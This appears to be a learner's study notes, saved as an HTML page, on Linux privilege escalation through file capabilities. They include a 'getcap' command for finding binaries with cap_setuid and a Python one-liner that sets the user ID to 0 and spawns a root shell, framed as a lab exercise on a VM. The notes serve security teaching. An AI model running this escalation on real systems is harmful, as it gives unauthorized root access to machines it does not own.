

<!DOCTYPE html  PUBLIC '-//W3C//DTD XHTML 1.0 Transitional//EN'  'http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd'><html xmlns="http://www.w3.org/1999/xhtml">
<head>
<meta content="text/html; charset=utf-8" http-equiv="Content-Type"/>
<title>Capabilites</title>
</head><body><b>Escalation via capabilites</b> 
 
Similar to SUID. 
 
Newer version. 
 
comparison of privilaged to uinprivilaged. 
 
Privialged bypass all permission checks. Unprivilaged have all checks carried otu. 
 
Capabilites started at Kernal 2.2 
 
Divides privilages associated wtih super user into distinct units 
 
these units are capbilites... they can be enabeled or disabled as requried. 
 
These are more secure than SUID and linux systems are transitioning to them 
 
 
to find 
 
<b>getcap -r / 2&gt;/dev/null</b> 
 
Based on what is returned, escalation could be as simple as a 1 liner. 
 
 
 
this example is python. maybe they are a dev and need root access for dev work wtih python only. 
This would not have shown up under a SUID find as its a capability not SUID. 
 
When seeing 'ep' THINK Permit Everything... this is what we want to find. 
 
escalation with this is a simple python script. 
 
<b>/usr/bin/python2.6 -c 'import os; os.setuid(0); os.system(&quot;/bin/bash&quot;)'</b> 
 
This will compile and excute granting root. 
 
 
 
Linpeas may find this 
 
other things to look into  
 
tar 
 
openssl 
 
perl 
 
When in doubt GOOGLEout 
 
 
 
 
 
 
Detection 
 
Linux VM 
 
1. In command prompt type: getcap -r / 2&gt;/dev/null 
2. From the output, notice the value of the “cap_setuid” capability. 
 
Exploitation 
 
Linux VM 
 
1. In command prompt type: 
/usr/bin/python2.6 -c 'import os; os.setuid(0); os.system(&quot;/bin/bash&quot;)' 
2. Enjoy root! 
</body></html>